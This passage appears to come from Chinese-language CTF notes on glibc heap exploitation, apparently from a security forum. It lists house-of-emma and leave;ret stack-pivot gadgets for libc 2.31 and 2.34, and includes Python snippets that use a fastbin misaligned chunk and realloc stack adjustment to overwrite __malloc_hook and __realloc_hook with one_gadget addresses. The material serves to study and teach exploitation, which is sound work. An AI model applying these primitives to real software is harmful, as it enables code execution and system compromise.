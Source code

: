 - 过程描述 
    1. rdi= A,rbp=rop\_addr
    2. rax=A-0x10
    3. call \[rax+0x28\]等价于call leave;ret
    4. leave：mov rsp,rbp; pop rbp 此时rsp=rop\_addr再ret执行rop

libc2.34(house of emma)
-----------------------

libc2.34,在libc2.35就没了这个gadget  
gadget\_addr = libc\_base + 0x146020 各个libc相差一般也不会太远，就在附近找就行  
可以设置rdx的值然后setcontent+61来进行orw

```text
mov rdx, qword ptr [rdi + 8]; 
mov qword ptr [rsp], rax; 
call qword ptr [rdx + 0x20];
```

libc2.31
--------

- libc2.31利用 getkeyserv\_handle+576

```text
mov     rdx, [rdi+8]
mov     [rsp+0C8h+var_C8], rax
call    qword ptr [rdx+20h]
```

其他
==

fastbin错位构造
-----------

- 通过错位构造\\x7f可以得到malloc\_hook

```python
edit(0x10,p64(libc.sym['__malloc_hook']-0x23))
add(0x68,b"A"*8)
add(0x68,b"\x00"*0x13 + p64(one_gadget))

```

realloc调整堆栈打ogg
---------------

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-8d5b1f05bb744ccf88ad2851d896a1e05367a4a8.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-3cd75b9bf70214ca844924e840530ec2bf332207.png)

- 注意realloc\_hook就在malloc\_hook-8的位置

```python
# __malloc_hook -> realloc+8
# __realloc_hook -> one_gadget
realloc = libc_base + libc.sym['realloc']
one_gadget = [0x4527a, 0xf03a4, 0xf1247]
add(4, 0x68, b'p' * 11 + p64(libc_base + one_gadget[0]) + p64(realloc + 8))
```
